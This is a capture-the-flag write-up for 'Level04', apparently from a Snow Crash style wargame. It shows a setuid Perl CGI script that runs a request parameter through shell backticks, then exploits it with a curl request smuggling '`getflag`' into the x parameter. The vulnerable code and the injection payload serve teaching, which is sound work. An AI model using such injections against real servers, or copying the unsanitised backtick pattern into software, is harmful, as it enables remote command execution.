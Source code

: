 # Level04

```bash
ls -la
# output:
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```
Oh the file again contains an `s` in its permissions<br/>
Let's read its content, it gives us:<br/>
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
It's seems that it is a script that run a web server on port 4747, I read it carefully, it seems that it accept a request param `x` and then exceute the echo command and redirect stderr to stdout, we can inject a bash command in this request param<br/>
in perl you use this syntax to excute a commad<br/>
```perl
# We call a shell command from a Perl script, using backticks, and capture the opt in a Perl variable output.
my $opt=`ls -la`;
print$opt;
```
let's benefits from this behavior by injecting our getflag cmd on the x request param bu calling ther server on<br/>
```bash
curl localhost:4747?x='`getflag`'

# printCheck flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```